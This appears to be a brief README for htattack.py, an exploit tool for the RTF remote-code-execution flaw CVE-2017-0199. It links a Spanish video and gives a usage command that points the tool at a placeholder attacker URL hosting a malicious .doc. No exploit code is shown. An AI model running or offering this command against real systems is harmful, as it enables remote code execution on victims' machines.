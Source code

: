 # htattack.py
An exploit implementation for RCE in RTF docs (CVE-2017-0199).

### Video (in Spanish):
    https://www.youtube.com/watch?v=0lDvclMrymM

### Usage:

    python htattack.py -u <http://[attacker-url]/document.doc>

